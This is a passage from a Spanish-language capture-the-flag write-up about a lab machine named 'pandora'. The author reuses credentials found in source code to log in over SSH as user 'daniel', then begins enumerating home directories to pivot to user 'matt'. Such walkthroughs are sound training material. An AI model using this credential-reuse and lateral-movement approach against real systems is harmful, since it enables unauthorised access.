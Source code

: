 Revisando a detalle, cada linea, se puede ver que existe un proceso que involucra un usuario y contraseña, siempre es bueno anotar estos detalles.
Teniendo ya algunas credenciales, podria usarse para un inicio de sesion (si es que la página tendria alguno), pero como parece ser una linea de comando, posiblemente exista un usuario del servidor con dichas credenciales.
~~~bash
ssh daniel@10.10.11.136
The authenticity of host '10.10.11.136 (10.10.11.136)' can't be established.
ED25519 key fingerprint is SHA256:yDtxiXxKzUipXy+nLREcsfpv/fRomqveZjm6PXq9+BY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.136' (ED25519) to the list of known hosts.
daniel@10.10.11.136's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 22 Oct 17:07:51 UTC 2025

  System load:           0.08
  Usage of /:            63.0% of 4.87GB
  Memory usage:          7%
  Swap usage:            0%
  Processes:             231
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.136
  IPv6 address for eth0: dead:beef::250:56ff:fe94:f116

  => /boot is using 91.8% of 219MB


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

daniel@pandora:~$
~~~
Y efectivamente, se logro obtener acceso a un usuario en el servidor, por ahora todo bien.
### Pivoteo al usuario matt
Con acceso al usuario daniel ya se puede enumerar algunas cosas dentro del servidor, lastimosamente la user flag no se encuentra en este usuario.
Al revisar directorios, al parecer existe un usario "matt" al que tenemos acceso a su directorio de trabajabo.
~~~bash
daniel@pandora:/home$ ls
daniel  matt
daniel@pandora:/home$ cd matt/
daniel@pandora:/home/matt$ ls -la
total 24
drwxr-xr-x 2 matt matt 4096 Dec  7  2021 .
drwxr-xr-x 4 root root 4096 Dec  7  2021 ..
~~~